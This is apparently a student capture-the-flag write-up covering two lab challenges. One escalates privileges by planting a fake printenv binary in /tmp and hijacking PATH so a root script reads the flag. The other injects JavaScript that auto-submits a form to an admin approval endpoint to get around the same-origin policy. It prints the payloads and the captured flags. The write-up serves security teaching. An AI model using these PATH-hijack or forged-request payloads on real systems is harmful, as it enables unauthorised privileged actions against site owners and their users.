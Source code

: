 ### British Punctuality

After analyzing the directories and files, we noticed some things.

Upon entry, there's a reader program, a main.c file which is the source code of this reader program and a shell script. <br>

This reader program attempts to read the /flags/flag.txt but, since we don't have permissions to read it, it can never execute and read the flag. <br>

The shell script checks for the existence of a /tmp/env file, changes the environment variables based on it, deletes the file and then executes a printenv shell program that prints all the environment variables to the console and then executes the reader program.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058437178964836412/image.png">

With this in mind, we went ahead and checked the /tmp directory, in which we realized we had permissions to create files, so we devised a strategy. <br>

We created an env file that changes the PATH environment variable to point to the /tmp directory.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449240319348857/image.png">

This will make it so whenever we try to run any system built-in commands, the system will try to fetch the location of that command going down the directories in the PATH variable. <br>
Since the /tmp folder is the first in line, if there's a printenv executable there, the system will call that one, instead of the "real" one. 

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058445037995827350/image.png">

And because the script calling this new printenv command has root access and therefore can read the /flag.txt file, if we were to put a cat flag.txt command in the new printenv command, we should be able to see the flag(flag{08276c3eaa5aff543e02f1d5719aac94}
) in the last_logs file.<br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449597451743312/image.png">


### Final Format

### Echo

### Apply For Flag II

This CTF is very similar to Week 10 Challenge 1, with a small yet annoying difference: the admin page and the justification page are hosted on the same website but on different ports, which counts as different origins. <br>

Firstly, we tried to do the same as we did on that challenge, sending a POST request using Ajax to the action that submits the approval for the flag.<br>

```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var sendurl="http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve";
                Ajax=new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.send();
        }
</script>
```

This did not work because it triggered a CORS error:

`Access to XMLHttpRequest at 'http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve' from origin 'http://ctf-fsi.fe.up.pt:5004' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.`

Now that we knew what we need to defeat, we started to look for ways to go around that. <br>

One way that we researched was the use of iframes to bypass SOP, but this turned out to be a dead end and a major headache. <br>

Until we finally arrived at a solution, which came to our mind because of the Laravel framework we're using on the LBAW course. <br>

Generally, if a form is submitted on a website, it won't trigger any SOP error because it's the own website submitting the request, and not someone/something external to it. <br>

With this in mind, we devised a script that would inject a form onto the DOM and then submit it automatically. <br>

```html
<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = "http://ctf-fsi.fe.up.pt:5005/request/b3131dce877a8b7198566429b90379958476bc9b/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>
```

The problem with this approach is that it will automatically redirect us to the action URL, which means we need to find a way to stop that. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058467818246508575/image.png">

After a couple tries trying to use javascript to stop the webpage from redirecting, which didn't work, we decided the best way to achieve the intended result was to just stop javascript execution in the browser with an extension and navigating to the URL that tells us if our request was approved. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468658529177661/image.png">

This worked perfectly, as when we loaded the page it wouldn't redirect us anymore, because our script tag was being disabled, allowing us to retrieve the flag (flag{24e4abf36593c5f93b13d0f5449c1258}).

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468097662660718/image.png">

There's only one improvement we could make, which is to make it so the script works autonomously, retrieving the request id from the URL, so we don't have to change our code every time we wanted to exploit this website.

```html
<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = window.location.href.substring(0,27) + "5" + window.location.href.substring(28) + "/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>
```

Unfortunatelly, despite the action URL being built correctly, for some reason our request is never approved. <br>
Since we already have the flag, we didn't give it much second thought, but decided to document this either way.